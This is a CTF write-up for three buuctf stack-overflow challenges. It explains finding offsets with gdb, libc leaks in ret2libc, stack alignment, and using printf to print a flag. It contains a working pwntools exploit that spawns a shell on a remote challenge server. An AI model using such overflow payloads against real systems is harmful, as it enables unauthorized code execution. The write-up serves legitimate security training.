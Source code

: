 # Stack overflow

## 1. jarvisoj_level2

From: buuctf

click [here](../PwnFile/level2) to download.

We can easily find the **binsh_addr** and **system_call_address**.

It's an easy problem, but there's something new while using **gdb** to find the offset from buffer to *ebp*.

> When you try to set breakpoint, you may get the error like this:
>
> [Attaching after Thread 0xf7fc2400 (LWP 10853) vfork to child process 10856]
> 
> [New inferior 2 (process 10856)]
> 
> [Thread debugging using libthread_db enabled]
> 
> Using host libthread_db library "/usr/lib/libthread_db.so.1".
> 
> [Detaching vfork parent process 10853 after child exec]
> 
> [Inferior 1 (process 10853) detached]
> 
> process 10856 is executing new program: /usr/bin/bash
> 
> Warning:
>
> Cannot insert breakpoint 2.
>
> Cannot access memory at address 0x8048475

You need to use **set follow-fork-mode parent** command to continue. 

There's nothing new about this.

Exp:
```python
from pwn import *

# sh = process('./level2')
sh = remote('node4.buuoj.cn', 25873)

binsh_addr = 0x804a024
target = 0x804849e
offset = 0xffffcb78 - 0xffffcaf0 + 4

payload = flat([cyclic(offset), target, binsh_addr])
sh.sendlineafter(b'Input:', payload)
sh.interactive()
```

## 2. ciscn_2019_c_1

From: buuctf

click [here](../PwnFile/ciscn_2019_c_1) to download.

It's type of **ret2libc**.

I think only two questions need to pay attention.

1. leak libc

The libc functions' address often have a length of **0x6** at 64bits machines. But when we use **puts** to leak the address, it stops at '\x00', so it only puts out the little six bytes(little-endian).

Otherwise we need to use `sh.recv(6).ljust(0x8, b'\x00')` instead of `sh.recv(8)`

2. The environment is Ubuntu18, and all versions after that should follow the **Stack Alignment**. That means we need to add a *ret* to make system_addr align to 0x10.

More details see [here](https://www.cnblogs.com/ZIKH26/articles/15996874.html).

And [here](../Shellcode/ciscn.py) are exp.

## 3. not_the_same_3dsctf_2016

From: buuctf

click [here](../PwnFile/not_the_same_3dsctf_2016) to download.

It's a 32bits static-linked file, don't have canary  
IDA to see the main functions

We can use **gets** to make stack overflow.  
The main point is the **get_secret** function that printf the flag to *fl4g*, which is in .bss section

> It's clear that we need to print the flag.(with function *printf*, *write*, *fputs*...)

Here are some attentions

- You don't need to cover the **ebp** due to the source assemble code
- *printf* must followed with *exit*, it will print the content only while meeting '\n' or buffer overflowed or process exit

shellcode for [printf](../Shellcode/not_the_same_3dsctf_2016.py)  

To use function *write*, see [here](https://zhuanlan.zhihu.com/p/648701544)
